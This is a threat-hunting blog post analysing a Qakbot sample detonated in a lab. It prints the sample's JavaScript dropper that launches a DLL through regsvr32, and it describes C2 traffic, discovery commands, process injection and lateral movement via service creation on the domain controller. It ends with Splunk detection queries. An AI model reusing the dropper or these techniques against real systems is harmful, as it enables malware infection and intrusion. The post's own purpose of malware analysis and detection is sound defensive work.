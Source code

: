 ```yaml
---
layout: post
title:  "Qakbot"
tags: [sysmon, splunk, threat hunting, qakbot, malware]
author: jouni
image: assets/images/qakbot.png
comments: false
categories: [ threat hunting ]
---
```


Qakbot - anything new on a recent sample?
=========================================

![]({{ site.baseurl }}/assets/images/qakbot.png)

I've been looking through tria.ge to see what has been the recent trend in the malware world. For the last couple of days the majority of the samples supplied (no actual statistics, just a hunch based on looking at the recently uploaded samples) has been Qakbot. Also there has been a few Asyncrat samples and a ton of random others. I decided to grab a sample of Qakbot to see if there is something new to be seen. The sample was [this](https://tria.ge/221119-g7k7dagg25).

It contains **ContractCopy\_YZ62.img** file, which I mounted to Windows. The image file contains couple of files, but the **ContractCopy.js** is the only one that is not hidden for the user. The file has the following contents:
    
    var q = WScript.CreateObject("Scripting.FileSystemObject").OpenTextFile("data.txt", 1).ReadAll();
    /**
    Signed
    */
    WScript.CreateObject("shell.application").shellexecute("reg" + q, "addled\\soloists.tmp", "", "open", 1);
    
It basically launches the DLL file which is stored under the **addled** folder, with the name of **soloists.tmp**. I verified that the file is indeed a DLL file with SHA1 hash of **e706be44c0bf3cf12ee1b357b0d037f172a5220a**. What happens next is that the **soloist.tmp** file is launched with **regsvr32.exe.**

![]({{ site.baseurl }}/assets/images/qbot_1.png)

Next, the **regsvr32.exe** accesses the legitimate process **wermgr.exe.** After this, the malware starts to connect to the C2 server, on IP 217\[.\].128.91.196 using port 2222. The C2 server address and port is constantly changing. A while later, the process starts to launch the typical commands that any of the loaders tend to do. For example, **net view**, **whoami /all**, **nestat -nao**, **route print** and **nslookup.**

![]({{ site.baseurl }}/assets/images/qbot_2.png)

After this, the malware seems to get quiet. Maybe the results of the queries were deemed non interesting, it is quite easy to determine that this isn't a real environment. The malware continues to connect to the C2 server every now and then. What is interesting is that I haven't been able to observe any sort of persistence mechanism being created. Maybe it would only have been created if a further payload would have been launched? I decided to play the waiting game and wait at least some hours to see if something will happen.

Wait.. it actually GOT active once more?
========================================

![]({{ site.baseurl }}/assets/images/qbot_3-1024x237.png)I've been gone for couple of hours and took a look if there was something going on. It seems that the process was starting ping.exe and also creating a remote thread (injecting) to the ping.exe. This seems a little weird and I have no explanation of why this would be. However, I am fairly certain that **wermgr.exe** shouldn't be doing this legitimately. The **ping.exe** process was started with **\-t 127.0.0.1** commandline, so constantly pinging localhost. The process was terminated couple of seconds later.

The **wermgr.exe** writes a file **c:\\Windows\\SysWOW64\\afzgd32.dll** moments later. This was not present anymore in the disk so I couldn't check the file hash for it, unfortunately. Also, it seems that this file was never loaded by any process. Nevertheless, it seems that the process initiated a connection to my WEF server and Domain Controller after that.

![]({{ site.baseurl }}/assets/images/qbot_4-1024x797.png)After the connections were initiated, there seems to be a quite interesting service being created on both on the **WEF** server and the **domain controller**. A Malicious DLL is created to **c$ share** which then launched as a service. This creates the persistence which was missing from the original host to DC and WEF.

There wasn't a file creation event in Sysmon for the creation of the DLL file, which I don't know the reason of. Maybe this is related to the configuration that is used in DetectionLab, as I have not modified the configuration. The file itself is found from the root of the C: -drive with another file that is later created as a service too. The file is the same though.

The malicious DLL file continues to inject into the **wrmgr.exe** as it did on the original host. It is likely that the file is pretty much the same than the original malicious DLL file. SHA1 hash of the file is E59C813E4ECE039221DF119069501B5C811ACBFE - I uploaded it to [VirusTotal](https://www.virustotal.com/gui/file/e8529481b15435580f690cfe471915d68a2a3b6f4695c4a6a9b3bd540a95f123). Virustotal didn't really give out too much about this sample. Could be interesting to do more analysis on it.

I continued to look at the activity by the malware but there wasn't anything too interesting which would catch my eye. The malware continued to connect to the command servers. There were still the several ports and IP-addresses to which the malware connected to. During the day, the malware connected to **92** distinct IP-addresses and to **8** distinct ports. The ports where the following, with counts in brackets **443** (1280), **995** (141), **22** (87), **2222** (60), **80** (30), **32103** (12), **1900** (3) and **65400** (3). It is likely that all of them are not malicious. I would assume that some of them were used to fetch the CRL lists for example.

![]({{ site.baseurl }}/assets/images/qbot_5-1024x341.png)The malware continues to run discovery commands. It runs mostly the same commands as before on the Windows 10 host, however there are some additions. For example, the malware tries to gain information of domain trusts by running the **nltest /domain\_trusts /all\_trusts** command. Nothing quite interesting though. I did create a pie chart of Commandlines of the processes which have been started by the now injected **wermgr.exe** process. Almost all the commands were ran the same amount of time so it is likely built-in to the malware.

I decided to kill the connection to the environment at this point. It should be quite isolated but can't be completely certain so I'd rather not leave the malware running too long. I took some dumps from the hosts for further analysis and suspended the hosts, waiting to be nuked from the orbit. Next, a little threat hunting so that I don't completely drift out of the purpose of the blog!

Threat hunting
==============

Hunting for Command & Control traffic can be hard. In this instance I can explain why; the malware is connecting to several different servers to several different ports and the actual interval between of the callbacks changes by a long margin. Sometimes the malware continues to call home on a single minute interval and sometimes it is much longer. I know that many people have tried to tackle this issue and there are great sources for this like [RITA](https://www.activecountermeasures.com/free-tools/rita/). I don't really tend to go further in this subject - it requires a lot skills in data analytics which goes much beyond my current capabilities.

So what about the endpoint based hunting? Well there are some things that can be done. First, let's look at the process start of regsvr32.exe (to get the parent commandline) and join that data to injection event. I added the two full image paths for regsvr32.exe. Could be done more easily with the OriginalFileName field, for example.

    index=sysmon EventCode=1 AND (Image="C:\\Windows\\System32\\regsvr32.exe" OR Image="C:\\Windows\\SysWOW64\\regsvr32.exe") 
    | table _time, host, CommandLine, Image, ParentImage, ParentCommandLine, ProcessId 
    | rename ProcessId as SourceProcessId, Image as SourceImage 
    | join type=inner host SourceProcessId SourceImage [search index=sysmon AND (SourceImage="C:\\Windows\\System32\\regsvr32.exe" OR SourceImage="C:\\Windows\\SysWOW64\\regsvr32.exe") EventCode=10 
    | table _time, host, SourceProcessId, SourceImage, TargetImage, TargetProcessId]
    
    

The next query just adds a one more join - join if there is a network connection initiated by the process which has been injected to.

    index=sysmon EventCode=1 AND (Image="C:\\Windows\\System32\\regsvr32.exe" OR Image="C:\\Windows\\SysWOW64\\regsvr32.exe") 
    | table _time, host, CommandLine, Image, ParentImage, ParentCommandLine, ProcessId 
    | rename ProcessId as SourceProcessId, Image as SourceImage 
    | join type=inner host SourceProcessId SourceImage [search index=sysmon AND (SourceImage="C:\\Windows\\System32\\regsvr32.exe" OR SourceImage="C:\\Windows\\SysWOW64\\regsvr32.exe") EventCode=10 
    | table _time, host, SourceProcessId, SourceImage, TargetImage, TargetProcessId] 
    | rename TargetProcessId as ProcessId, TargetImage as Image 
    | join type=outer host ProcessId [search index=sysmon EventCode=3 NOT (DestinationIp="10.0.0.0/8" OR DestinationIp="172.16.0.0/12" OR DestinationIp="192.168.0.0/16") 
    | table host ProcessId Image DestinationIp DestinationPort]
    
    

This adds the outbound connection to the results too. ![]({{ site.baseurl }}/assets/images/qbot_6.png)

There are also options to hunt for the lateral movement seen, for example based on the service creation of the abnormal sort. Here is a short query for this using the System log. There are many many other ideas that come from this too but I need to leave something to you readers too.

    index=wineventlog EventCode=7045 Service_File_Name="*regsvr32.exe*" 
    | table _time, host, Service_File_Name, Service_Name, Sid
    

Closing words
=============

This was VERY interesting to do. I had a lot of fun while analyzing Qbot, however it was also quite stressful as I don't really want the malware to escape my lab. I wouldn't really recommend this type of analysis to anyone but it is heck of a fun. It is likely that I will continue to do these kind of posts in the future too, probably playing with recent samples that seem to have significant presence.

I might also have a way to deploy MDE, which I might use in the future once more. One option would also be to ingest Sysmon data to my Log Analytics space as I am much much more familiar with KQL than SPL but we will see.

Thanks for reading this far!